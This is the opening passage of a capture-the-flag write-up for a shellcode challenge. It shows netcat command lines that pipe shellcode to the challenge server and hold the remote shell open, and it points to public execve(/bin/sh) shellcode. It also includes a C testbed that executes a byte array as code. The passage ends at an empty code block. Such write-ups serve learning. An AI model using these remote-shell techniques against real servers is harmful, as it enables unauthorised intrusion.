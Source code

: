 # Gimme Shellcode
**Category:** Scripting

**Points:** 20

**Description:**

We sell C shells by the seashore.

nc ctf.hackucf.org 10103

## Write-up
> **tl;dr**  
This write-up details some of my learning about shellcode. This means it gets pretty long and side-tracked from time to time.  
The final shellcode performs `cat` on the file `flag.txt` on the server. You can just skip to the end and see what I did if you already know your shellcode.  
Or you can get a shell on the server by looking at my `/bin/ls` example and changing the `ls` to `sh`.  
If you want the quickest route to the flag, you can find existing shellcode solutions on-line and just use them. I tested one from http://shell-storm.org/shellcode/ (I tried Linux/x86 - execve(/bin/bash. [/bin/sh, -p]NULL) - 33 bytes and it worked well).  
**Warning**: Malwarebytes doesn't like the above site, but I think it's ok - lots of h4x0r's use it, but take care.  
**Note:** If you use `/bin/sh` against a server, you need to force the server to wait after executing your command, or it will return without you being able to use the shell. To do this, your command line should be (for Python2):  
`(python -c "print('<your shellcode here>')" ; cat) | nc ctf.hackucf.org 10103`  
or, for Python3:  
`(python3 -c "import sys; sys.stdout.buffer.write(b'<your shellcode here>')" ; cat) | nc ctf.hackucf.org 10103`

This challenge requires some shellcode to solve. Running it on the server returns:
```
> nc ctf.hackucf.org 10103
Send me shellcode, and I'll run it for you!
```

I didn't know anything about shellcode before tackling this challenge, so I used [this webpage](https://nobe4.fr/shellcode-for-by-newbie/) as a basis for learning.

First we create our test C program to run any shellcode locally to ensure it works:
```c
// Testbed for shellcode

// Enter shellcode instructions in this array
// Shellcode is in the form of hex bytes defining
// machine code (just like the old days!)
const char shellcode[] = "";

int main()
{
  // Create a function pointer
  // Set pointer to point at the shellcode
  // Call the function
  void (*func_p) (void);
  func_p = (void *)shellcode;
  func_p();

  return 0;
}
```
Now we can enter shellcode in the `shellcode` array and test it. The example in the webpage above uses 4 `nop` instructions, so I tried that by editing the shellcode variable:
```c
```